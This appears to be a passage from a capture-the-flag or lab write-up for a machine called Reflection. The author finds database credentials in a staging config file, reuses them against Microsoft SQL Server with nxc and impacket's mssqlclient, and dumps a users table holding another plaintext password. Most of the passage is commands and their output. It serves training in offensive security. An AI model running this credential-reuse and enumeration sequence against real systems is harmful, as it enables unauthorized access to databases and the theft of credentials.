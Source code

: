     ➜  Reflection cat staging_db.conf 
    user=web_staging
    password=Washroom510
    db=staging#    

but there is no more shares we can access again and check for other files

so lets try on MSSQL 

and its actually work

    ➜  Reflection nxc mssql MS01 -u "web_staging" -p 'Washroom510' --local-auth
    MSSQL       10.10.129.246   1433   MS01             [*] Windows Server 2022 Build 20348 (name:MS01) (domain:reflection.vl)
    MSSQL       10.10.129.246   1433   MS01             [+] MS01\web_staging:Washroom510 

alright we got mssql as Guest

    ➜  Reflection python3 /opt/impacket/examples/mssqlclient.py reflection.vl/web_staging:'Washroom510'@MS01              
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(MS01\SQLEXPRESS): Line 1: Changed database context to 'master'.
    [*] INFO(MS01\SQLEXPRESS): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
    [!] Press help for extra shell commands
    SQL (web_staging  guest@master)> 

i will try to read database tables first

    SQL (web_staging  guest@master)> SELECT name FROM master..sysdatabases;
    name      
    -------   
    master    

    tempdb    

    model     

    msdb      

    staging   

    SQL (web_staging  guest@master)> USE staging;
    ENVCHANGE(DATABASE): Old Value: master, New Value: staging
    INFO(MS01\SQLEXPRESS): Line 1: Changed database context to 'staging'.
    SQL (web_staging  dbo@staging)> SELECT name FROM sys.tables;
    name    
    -----   
    users   

    SQL (web_staging  dbo@staging)> SELECT * FROM users;
    id   username   password        
    --   --------   -------------   
    1   b'dev01'   b'Initial123'   
